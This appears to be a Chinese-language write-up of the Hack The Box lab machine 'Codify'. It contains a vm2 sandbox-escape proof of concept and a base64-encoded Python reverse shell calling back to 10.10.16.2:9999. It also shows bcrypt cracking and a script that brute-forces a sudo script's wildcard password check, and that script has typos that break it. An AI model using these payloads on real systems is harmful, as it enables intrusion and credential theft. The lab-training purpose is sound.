



# Codify

:::info

Difficulty: Easy

Operating System: Linux

:::

## nmap 信息搜集

```plaintext title="sudo nmap -A --min-rate=5000 -T5 -p- 10.10.11.239"
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
```

## web 服务 Port-80

尝试进行访问

```plaintext
HTTP/1.1 301 Moved Permanently
Connection: Keep-Alive
Content-Length: 304
Content-Type: text/html; charset=iso-8859-1
Date: Thu, 14 Mar 2024 02:25:13 GMT
Keep-Alive: timeout=5, max=100
Location: http://codify.htb/
Server: Apache/2.4.52 (Ubuntu)

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://codify.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.10.11.239 Port 80</address>
</body></html>
```

在 `/etc/hosts` 文件中添加解析记录之后，尝试访问 `http://codify.htb/`



由此看来，`80` 端口和 `3000` 端口的返回服务是一致的

### 沙盒逃逸

在 `http://codify.htb/limitations` 中，可以得到沙盒中对于函数调用的一些限制

查阅相关资料，可以定位到这个漏洞 [CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m)

使用以下 poc 进行攻击

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`
console.log(vm.run(code));
```

经过测试，可以使用常用的 bash 符号



尝试直接反弹 shell

```javascript
cmd = 'echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjIiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKSc= | base64 -d | bash'
```



## User - svc

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[10:36:41] Welcome to pwncat 🐈!
[10:37:04] received connection from 10.10.11.239:35458
[10:37:13] 10.10.11.239:35458: registered new host w/ db
(local) pwncat$ back
(remote) svc@codify:/home/svc$ whoami
svc
```

### 环境探测

发现一个数据库文件 `/var/www/contact/tickets.db`

下载到本地，对数据库信息进行读取

| id  | username |                           password                           |
| :-: | :------: | :----------------------------------------------------------: |
|  3  |  joshua  | $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2 |

对哈希数据进行爆破

```bash
┌──(randark ㉿ kali)-[~]
└─$ hashid hash.txt
--File 'hash.txt'--
Analyzing '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
--End of file 'hash.txt'--

┌──(randark ㉿ kali)-[~]
└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
......
```

得到凭据

```plaintext
joshua:spongebob1
```

## User - joshua

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs joshua@10.10.11.239
[10:52:20] Welcome to pwncat 🐈!
Password: **********
[10:52:35] 10.10.11.239:22: registered new host w/ db
(local) pwncat$ back
(remote) joshua@codify:/home/joshua$ whoami
joshua
```

### flag - user

```bash
(remote) joshua@codify:/home/joshua$ cat user.txt
a32a183123439045d5ea11c8c79e6649
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

查看脚本内容

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER:" USER_PASS
/usr/bin/echo

if [[$DB_PASS == $USER_PASS]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

在其中看到

```bash
if [[$DB_PASS == $USER_PASS]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

那么可以尝试对 `$DB_PASS` 变量进行爆破，也就是读取 `/root/.creds` 文件的内容

```python
import string
import subproccess

def check_password(p):
    command = f"echo'{p}*'| sudo /opt/scripts/mysql-backup.sh"
    result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
    return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
    for char in charset:
        if check_password(password + char):
            password += char
            print(password)
            break
    else:
        is_password_found = True
```

执行后得到密码 `kljh12k3jhaskjh12kjh3`

## User - root

```bash
(remote) joshua@codify:/home/joshua$ su root
Password:
root@codify:/home/joshua# whoami
root
```

### flag - root

```bash
root@codify:~# cat root.txt
f2138d1d7e9e92e46c08a57ad2c6754f
```
